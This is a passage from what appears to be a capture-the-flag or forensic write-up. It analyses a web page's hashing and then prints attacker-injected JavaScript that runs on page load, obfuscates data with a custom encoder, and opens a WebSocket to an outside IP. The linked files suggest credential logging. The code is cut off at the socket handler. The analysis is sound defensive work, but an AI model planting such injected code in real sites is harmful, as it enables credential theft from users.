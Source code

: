 It can be seen, that in order to calculate the `hash` I need to know: `password`, `nonce` and `cnonce`, but from these three only last two are known. By looking at the `function i()` I assume that the function creates a valid, not vulnerable `SHA256` hash.  
As the result of this assumption, I have remembered about `WebSocket protocol` I noticed before and quickly searched for `WebSocket` word in the source code.


### Websocket

After some formatting, I get the injected by an attacker code ([injected.js]) which looks like following:

```js
window.addEventListener("DOMContentLoaded", function() {

  function encode(msg, key) {
    var encoded_arr = [];
    if (typeof s === "string") msg = (new TextEncoder("utf-8")).encode(msg);
    var i=0, z;
    for (;i < msg.length;i++) if(msg[i]) break;
    z = i;
    for (;i < msg.length;i++) {
      var c = msg[i], j = 0;
      for (;j in encoded_arr || c;j++) {
        if (encoded_arr[j]) c += encoded_arr[j] * 256;
        encoded_arr[j] = c % 58;
        c = Math.floor(c / 58);
      }
    }
    return key[0].repeat(z) + encoded_arr.reverse().map(x => key[x]).join("");
  }

  function hash(s) {
    var r = 0, i=0;
    for (;i < s.length;i++) r = r * 31 + s.charCodeAt(i) | 0;
    return r;
  }

  function rand(s) {
    var x = 123456789, y=362436069, z=521288629, w = 88675123, t;
    return function(a, b) {
      t = x ^ x << 11;
      x = y; y = z; z = w;
      w = w ^ w >> 19 ^ (t ^ t >> 8);
      if (a !== undefined && b !== undefined) {
        return a + w % (b + 1 - a);
      }
      return w;
    };
  }

  function shuffle(a, r) {
    var i;
    i = a.length - 1;
    for (;i > 0;i--) {
      var j = Math.abs(r(0, i));
      var t = a[i]; a[i] = a[j]; a[j] = t;
    }
  }

  var ws = new WebSocket("ws://192.168.99.101:7467");
  var key = "MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp";
  var key2 = key;

  ws.addEventListener("open", function(event) {
```

[websocket]: <./files/websocket.png>
[packets]: <./files/packets.png>
[sockets.txt]: <./sockets.txt>
[logger.pcap]: <./files/logger.pcap>
[decoded]: <./files/decoded.png>
[credentials]: <./files/credentials.png>
[bundle.js]: <./files/bundle.js>
[injected.js]: <./injected.js>
[decoder.js]: <./decoder.js>
[decoder.html]: <./decoder.html>